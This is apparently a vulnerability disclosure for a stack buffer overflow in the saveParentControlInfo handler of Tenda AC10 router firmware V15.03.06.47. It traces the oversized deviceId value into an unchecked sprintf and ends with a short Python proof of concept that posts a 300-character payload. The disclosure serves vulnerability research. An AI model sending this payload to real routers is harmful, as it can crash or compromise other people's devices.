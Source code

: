 # buffer overflow

## Tenda_AC10

version: V15.03.06.47

## Description:

There is a buffer overflow in httpd/saveParentControlInfo

## Source:

you may download it from : https://www.tendacn.com/download/detail-3796.html

## Analyse:


![](5.png)

get value from deviceId ,then call set_device_name

![](6.png)

if deviceName and deviceId are are not null,set_device_name send to mac_addr, call sprintf, cause buff overflow

## POC
```
url = "http://192.168.1.13/goform/saveParentControlInfo"
payload = 'A'*300 + '\n'

r = requests.post(url, data={'deviceName': '1', 'deviceId': payload,'time':'1'})
``` 
